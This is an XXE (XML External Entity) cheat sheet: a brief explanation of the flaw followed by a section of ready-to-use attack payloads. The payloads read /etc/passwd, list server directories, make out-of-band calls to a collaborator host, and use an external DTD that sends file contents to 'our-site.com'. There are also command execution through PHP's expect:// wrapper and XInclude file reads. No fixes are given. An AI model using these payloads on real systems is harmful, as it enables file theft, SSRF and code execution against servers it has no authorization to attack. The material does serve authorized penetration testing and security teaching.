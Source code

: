 #XXE #xml 
## What is it?

XML External Entity (XXE) vulnerabilities occur when an application processes XML input that includes a reference to an external entity. This vulnerability can occur in any technology that parses XML. By exploiting an XXE vulnerability, an attacker can read local files on the server, interact with internal systems, or conduct denial of service attacks.

**A simple example**

A vulnerable application might parse XML input from a user without disabling external entities. An attacker could then send XML like the following:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

In this case, the XML parser will replace `&xxe;` with the contents of the `/etc/passwd` file and include it in the output.

XXE can often lead to:

-   Disclosure of internal files
-   Server Side Request Forgery (SSRF)
-   Denial of Service
-   Remote Code Execution in some rare cases

---

## Exploitation

Detect XXE

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe "test"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

Include files
_Note:_ You might need `"file:///etc/passwd"`

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

List files: _Note:_ Restricted to Java applications

```
<!--?xml version="1.0" ?-->
<!DOCTYPE aa[<!ELEMENT bb ANY>
<!ENTITY xxe SYSTEM "file:///">]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

Out-of-band:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://collaborator"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

Parameter entities:

```
<!DOCTYPE ase [ <!ENTITY % xxe SYSTEM "http://collaborator"> %xxe; ]>
```

Load an external DTD:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://our-site.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Execute code _Note:_ Only works in the PHP 'expect' module is available

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<foo>
    <bar>&xxe;</bar>
</foo>
```

**Include XML as a parameter value**

```
param=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

**Other sources**

-   Fuzzing for XXE https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/XML.txt
-   Fuzzing for local DTDs https://github.com/GoSecure/dtd-finder/tree/master/list